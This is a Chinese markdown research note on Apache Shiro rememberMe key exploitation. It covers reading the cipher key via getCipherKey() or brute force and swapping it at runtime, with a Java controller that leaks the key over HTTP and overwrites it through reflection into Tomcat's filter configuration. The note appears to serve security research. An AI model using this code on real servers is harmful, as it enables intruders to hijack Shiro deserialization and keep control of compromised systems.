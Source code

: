 

## 漏洞利用
### Key 修改

测试环境

- shiro 1.2.24

#### 获取key

- 方式1：getCipherKey()

![image-20211118154359697](vulnerability-research.assets/image-20211118154359697.png)

- 方式2：爆破

![image-20211118155031602](vulnerability-research.assets/image-20211118155031602.png)

#### 修改key

##### 方式1: 成员变量

![image-20211118154624802](vulnerability-research.assets/image-20211118154624802.png)



![image-20211118154847035](vulnerability-research.assets/image-20211118154847035.png)

爆破密钥

![image-20211118154924247](vulnerability-research.assets/image-20211118154924247.png)



执行命令

![image-20211118155359227](vulnerability-research.assets/image-20211118155359227.png)

##### 方式2: 成员方法 setCipherKey

![image-20211118155853780](vulnerability-research.assets/image-20211118155853780.png)

#### 相关代码
`仅为实验性代码`

```java
package com.example.controller;
import org.apache.catalina.core.ApplicationFilterConfig;
import org.apache.catalina.core.StandardContext;
import org.apache.catalina.loader.WebappClassLoaderBase;
import org.apache.shiro.web.mgt.CookieRememberMeManager;
import org.apache.tomcat.util.descriptor.web.FilterDef;
import org.springframework.stereotype.Controller;
import org.springframework.web.bind.annotation.RequestMapping;
import javax.servlet.http.HttpServletResponse;
import java.lang.reflect.Field;
import java.util.Base64;
import java.util.Map;

@Controller
public class ShiroKeyController {
    @RequestMapping(value = "/getKey")
    public void getShiroKey(HttpServletResponse resp){
        try{
            byte[] key = new CookieRememberMeManager().getCipherKey();
            resp.getWriter().write("shiro key: \n" + new String(Base64.getEncoder().encode(key)));
        }catch (Exception ignored){}

    }
    @RequestMapping(value = "/changeKey")
    public void changeShiroKey(HttpServletResponse resp){
        try {
            WebappClassLoaderBase webappClassLoaderBase = (WebappClassLoaderBase) Thread.currentThread().getContextClassLoader();
            StandardContext standardContext = (StandardContext) webappClassLoaderBase.getResources().getContext();
            Field Configs = Class.forName("org.apache.catalina.core.StandardContext").getDeclaredField("filterConfigs");
            Configs.setAccessible(true);
            Map filterConfigs = (Map) Configs.get(standardContext);
            ApplicationFilterConfig applicationFilterConfig = (ApplicationFilterConfig) filterConfigs.get("shiroFilterFactoryBean");
            Field filterDef = getField(applicationFilterConfig,"filterDef");
            FilterDef filterDefIns = (FilterDef)filterDef.get(applicationFilterConfig);
            Field filter = getField(filterDefIns,"filter");
            Object filterIns = filter.get(filterDefIns);
            Field securityM = getField(filterIns,"securityManager");
            org.apache.shiro.mgt.SecurityManager securityInstance = (org.apache.shiro.mgt.SecurityManager)securityM.get(filterIns);
            CookieRememberMeManager cookieRememberMeManager = (CookieRememberMeManager) getField(securityInstance,"rememberMeManager").get(securityInstance);
            byte[] cipherKey = java.util.Base64.getDecoder().decode("2AvVhdsgUs0FSA3SDFAdag==");
            // cookieRememberMeManager.setCipherKey(cipherKey);
            setFieldValue(cookieRememberMeManager,"encryptionCipherKey",cipherKey);
            setFieldValue(cookieRememberMeManager,"decryptionCipherKey",cipherKey);
            resp.getWriter().write("new shiro key: \n" + new String(Base64.getEncoder().encode(cipherKey)));
        } catch (Exception e) {
            e.printStackTrace();
        }
    }

    public static void setFieldValue(Object object,String fieldName,Object fieldValue) throws Exception {
        Field field =  getField(object,fieldName);
        field.set(object,fieldValue);
    }

    public static Field getField(Object object,String fieldName) {
        Class<? extends Object> clas = object.getClass();
        Field field = null;
        while (clas != Object.class){
            try {
                field = clas.getDeclaredField(fieldName);
                break;
            } catch (NoSuchFieldException e){
                clas = clas.getSuperclass();
            }
        }
        if (field != null){
            field.setAccessible(true);
            return field;
        }else {
            return null;
        }
    }
}
```
